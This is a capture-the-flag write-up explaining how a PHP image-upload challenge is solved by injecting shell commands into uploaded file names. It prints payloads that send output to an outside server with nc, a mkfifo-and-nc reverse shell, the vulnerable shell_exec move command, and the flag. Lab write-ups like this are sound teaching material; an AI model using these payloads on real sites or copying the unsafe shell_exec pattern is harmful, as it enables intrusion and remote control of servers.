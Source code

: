 # Web 200

Web 200 is a php website that lets you upload images. Whenever you upload an
image, it stores it under your 'gallery', so you can see the images that
you've already uploaded.

For every file, it renames it and stores it in the 
`uploads/<phpsession>/<file-index>-<original file name>`  directory of
the website.

The exact same file that is uploaded is what is presented (so no
compression or parsing of the image file in any way happens).

The website declares that only pngs and gifs may be uploaded. It turns
out that the website checks for these filetypes by file extension. That
is, a png file that is renamed to be .jpg will be rejected, and a .jpg
that is renamed to .png will be accepted.

It turns out that we can inject almost arbitrary shell code into the
file names of our images and have them execute. Interestingly enough,
our file names can not have the / character in them, (because that would
be a directory in posix), so we cannot inject / characters.

    “nomnom; pwd | nc <OUR SERVER DNS> 9042;hooray.png"

Uploading a file with this name connected back to our server and dumped
the working directory of the web process.

We created a callback shell, and dug around.

    nomnom; cd .. && cd .. && cd tmp && mkfifo paip; foo.png
    nomnom; cd .. && cd .. && cd tmp && cat paip | nc <OUR SERVER> 1337 | bash > paip; foo.pngo

And found exactly why the filenames were letting us execute arbitrary
code. It's because the php used executed shell code to move our image
into the proper directory.

    shell_exec("mv $tmpfname $userdir/$c-\"\$(echo $file_name | cut -c1-16)\".$ext");

The flag was in the file at `/var/www/picture`

    c5e7b971c62296dcae64fb7fabf169c6
